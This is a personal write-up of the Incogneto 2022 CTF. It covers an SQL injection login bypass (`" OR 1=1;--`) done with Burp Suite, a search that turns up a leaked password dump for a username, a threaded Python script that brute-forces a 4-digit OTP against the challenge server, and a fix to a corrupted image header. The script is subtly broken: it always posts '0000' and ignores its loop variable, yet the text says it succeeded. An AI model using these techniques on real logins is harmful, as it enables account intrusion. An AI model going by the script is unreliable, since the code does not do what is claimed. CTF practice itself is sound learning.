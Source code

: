 ## Incogneto 2022

A team based CTF, i competed with one of my other friends

### The mission

The mission was a serius of channgles, 

### Invisiable 

Here we are presented with a "hacking forum" that we have to get into using an invite code we dont have, when initaily loading up the webpage it is simply a matrix style landing page.

![Image of the landing page](assets/invisable1.png)

after removing the canvases and CSS using developer tools its clear to see how we are ment to input the code

![The login screen](assets/invisable2.png)

After just trying some things like `letmein` we simply get redirected to a nice lovely rick ashly telling us he will never give us up

Next we cant check for a posible SQLi, by inputting `"` we get a `Server Error (500)` from the server, this tells us it is indeed vonruable

We can now consider what the SQL for making this reqeust would look like, here is my geuss

```
SELECT * FROM table WHERE code = "{user input}"
```

And then the backend would check if there is one or more results

If we use the input `" OR 1=1;--` we use the -- to comment out the rest of the qoury

When we use it as our input we get the same `Server Error (500)`, likely because its getting URL encoded. We can change our exact request using a tool called burpsouite

With burp we want to go into proxy and turn `intercept` off, as this will catch our packages and then click open browser. When we navigate to the website everything will be as normal, i type test in the prompt, turn intercept on agein and click submit 

![Burp running the browser](assets/invisable3.png)

Now that we have our packet we can click `HTTP History` right click the packet and press `Send to repeater`

Now in the repeater we can change the request as we like

If we chage our input to the payload we get this

![We got the flag :D](assets/invisable4.png)

After we have the flag i right click and render it in my browser for the next part of the challange

### Invisible (Part two: Unknowen Pass)

We are told that the hacker that owned the code went by the username "cool.hacker.8", after a google search that went like this

```
"ctf 360" 2014 "cool.hacker.8"
```

We got the dump we needed and it looks like this

![Password Dump](https://github.com/logicguy1/CTF-Writeups/blob/main/assets/unknown1.png)

After using that username and password we are in and have the flag without issues.

![Anddd we have the flag!!](assets/unknown2.png)

### Invisible (Part three: One Time)

In this challange we have to try and crack a 4 digit OTP passphrase, the creator of the challange said that you dont need bruteforcing to solve it tho during the CTF this was the method chosen.

I used the following script to send the requests to the server

```py
import requests
import json
import threading

def clamp(n, smallest, largest):
    return int(max(smallest, min(n, largest)))

url = "http://142.93.209.130:8000/otp-auth"

headers = {
    "Referer": "http://142.93.209.130:8000/forums-login",
    "Cookie": "csrftoken=TOKEN"
}


def exploit(ids):
    for i in ids:
        while True:
            payload = {
                "otp": "0000"
            }
            try:
                r = requests.post(
                    url,
                    headers=headers,
                    json=payload
                )
            except:
                print("FAILED", i)
                continue

            if r.json()["success"] == "true":
                with open("Success", "w") as file:
                    file.write(str(i))

            print(i)
            break

with open("0-9999", "r") as file:
    inp = [i.strip() for i in file.readlines()][::-1]

for i in range(0,int(len(inp)),int(len(inp)/32)):
    imx = clamp(i+int((len(inp)/32)), 0, 9999)
    print(imx)
    
    threading.Thread(target = exploit, args = (inp[i:imx],)).start()
```

I had made a wordlists prior using the following format:

```
[drill@archlaptop scripts]$ head 0-9999 
0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
[...]
```

It took a few tries but we got it at last :D

### xD

xD was a steganography challange where we are given a png (tv\_chal.png) attempting to open this image results in an error being throwen saying that the image is not a reconised format.

After getting the file up in gHex (a hex editor) we can see a byte header that looks like `D8 FF E0 FF` to verify that the header is in tact i did a quick search finding a page showing `FF D8 FF` as an example header, when we open the file with this new header using gimp we see this old tv

![Image of an old tv](assets/xD1.png)

After zooming arround on this TV we can see the flag hidden on the screen of it

![The flag is there :p](assets/xD2.png)




